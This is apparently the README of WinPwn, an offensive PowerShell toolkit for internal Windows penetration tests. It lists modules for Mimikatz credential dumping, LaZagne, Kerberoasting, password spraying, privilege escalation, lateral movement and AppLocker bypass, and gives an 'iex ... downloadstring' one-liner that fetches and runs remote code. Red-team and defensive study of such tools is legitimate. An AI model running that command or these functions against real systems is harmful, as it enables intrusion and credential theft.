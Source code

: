 # WinPwn
Still much work to do - Automation for internal Windows Penetrationtest. 

Just Import the Modules with "Import-Module .\WinPwn_v0.6.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.6.ps1')

Functions available after Import:
1) #### `isadmin` -> Checks for local admin access
2) #### `Inveigh` -> Executes Inveigh in a new Console window (https://github.com/Kevin-Robertson/Inveigh)
3) #### `sessionGopher` -> Executes Sessiongopher in memory (https://github.com/Arvanaghi/SessionGopher)
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz after with admin rights (https://github.com/PowerShellMafia/PowerSploit)
5) #### `localreconmodules` -> Executes different Get-Computerdetails and Just another Windows Privilege escalation script + Winspect (https://github.com/PowerShellMafia/PowerSploit, https://github.com/A-mIn3/WINspect, https://github.com/411Hall/JAWS)
6) #### `JAWS` -> Just another Windows Privilege Escalation script gets executed
7) #### `domainreconmodules` -> Different Powerview situal awareness functions get executed and the output stored on disk. In Addition a Userlist for DomainpasswordSpray gets stored on disk. An AD-Report is generated as CSV Files (or XLS if excel is installed) with ADRecon. (https://github.com/sense-of-security/ADRecon, https://github.com/PowerShellMafia/PowerSploit, https://github.com/dafthack/DomainPasswordSpray)
8) #### `Privescmodules` -> Executes different privesc scripts in memory (Sherlock https://github.com/rasta-mouse/Sherlock, PowerUp, GPP-Files, WCMDump)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) (https://github.com/AlessandroZ/LaZagne)
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. Domainpassword-Spray for new Credentials can also be done here.
11) #### `empirelauncher` -> Launch powershell empire oneliner for remote Systems (https://github.com/EmpireProject/Empire)
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder from Powerview (Powersploit)
13) #### `groupsearch` -> FindGPOLocation (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)


## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

